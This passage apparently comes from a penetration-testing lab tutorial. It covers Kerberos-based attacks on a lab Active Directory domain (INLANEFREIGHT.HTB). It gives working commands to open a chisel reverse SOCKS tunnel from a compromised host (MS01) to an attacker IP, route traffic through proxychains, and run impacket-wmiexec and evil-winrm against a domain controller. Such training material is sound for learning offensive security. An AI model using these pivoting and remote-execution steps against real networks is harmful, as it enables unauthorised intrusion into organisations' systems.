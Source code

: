 In this scenario, our attack host doesn't have a connection to the `KDC/Domain Controller`, and we can't use the Domain Controller for name resolution. To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.ž

```shell
cat /etc/hosts
```

#### Proxychains Configuration File

```shell
cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080

```

We must download and execute [chisel](https://github.com/jpillora/chisel) on our attack host.

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 
```

Connect to `MS01` via RDP and execute chisel (located in C:\Tools).

```cmd
 c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```
**Note:** The client IP is your attack host IP.

### Impacket

#### Using Impacket with proxychains and Kerberos Authentication

```shell
proxychains impacket-wmiexec dc01 -k
```

### Evil-Winrm

To use [evil-winrm](https://github.com/Hackplayers/evil-winrm) with Kerberos, we need to install the Kerberos package used for network authentication. For some Linux like Debian-based (Parrot, Kali, etc.), it is called `krb5-user`. While installing, we'll get a prompt for the Kerberos realm. Use the domain name: `INLANEFREIGHT.HTB`, and the KDC is the `DC01`.

#### Installing Kerberos Authentication Package

```shell
sudo apt-get install krb5-user -y
```
